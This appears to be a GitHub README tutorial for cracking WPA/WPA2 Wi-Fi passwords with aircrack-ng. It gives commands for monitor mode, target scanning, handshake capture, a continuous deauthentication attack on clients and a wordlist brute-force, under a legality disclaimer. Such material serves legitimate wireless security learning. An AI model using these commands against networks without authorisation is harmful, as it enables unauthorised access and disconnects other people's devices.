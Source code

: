 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 
Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*

## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection.
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: ![Monitor Mode Activation](images/ifconfig.png)
    * `sudo airmon-ng start wlan0`
       * Example: ![Monitor Mode Activation](images/monitor_mode.png)

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
        * Example: ![Airodump Scan](images/airodump.png)

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: ![Handshake Capture](images/handshake.png)
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example: ![Deauth Attack](images/deauth.png)

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: ![Aircrack Success](images/aircrack.png)


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0mon` and `sudo systemctl restart NetworkManager`
     * Example: ![Network Restored](images/restored.png)

        
